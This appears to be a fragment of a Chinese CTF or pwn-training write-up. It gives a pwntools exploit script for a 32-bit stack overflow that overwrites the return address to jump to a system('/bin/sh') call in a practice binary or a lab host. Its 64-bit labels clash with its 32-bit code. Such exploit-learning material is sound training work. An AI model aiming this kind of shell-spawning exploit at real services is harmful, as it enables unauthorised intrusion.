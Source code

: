 [![](assets/1709193437-115263793438e36bfe7b3d88d7be346f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240224000549-6965ad4c-d265-1.png)

## exp.py

-   危险的 system("/bin/sh"); 0x08048486

```plain
# 64 位栈溢出模版
# ++++++++++++++++++++++++++++++++++++++++++
# +  微信公众号：攻有道       By:Cha111Ng1    +
# ++++++++++++++++++++++++++++++++++++++++++
# Github: https://github.com/Cha111Ng1/ghidra_scripts_cha11
from pwn import *

context(os='linux', arch="amd64", log_level="debug")
content = 0

# 计算出的填充字符，0x14：缓冲区大小，+4：因为是 32 位
payload = b'a' * (0x14+4)
# 想要其返回的函数地址，即前面填充 a 至函数返回地址时，把返回地址填充为我们指定的函数地址，这样在堆栈做 ret 操作时 eip 跳转到我们填充的地址
system_addr = 0x08048486

def main():
    if content  == 1:
        # 本地文件方式
        cha11 = process("./test_01_32")
    else:
        # 远程连接方式
        cha11 = remote('10.37.130.2', '1337')
    # 跳到恶意位置
    exp = payload + p32(system_addr)
    # 发送恶意载荷
    cha11.sendline(exp)
```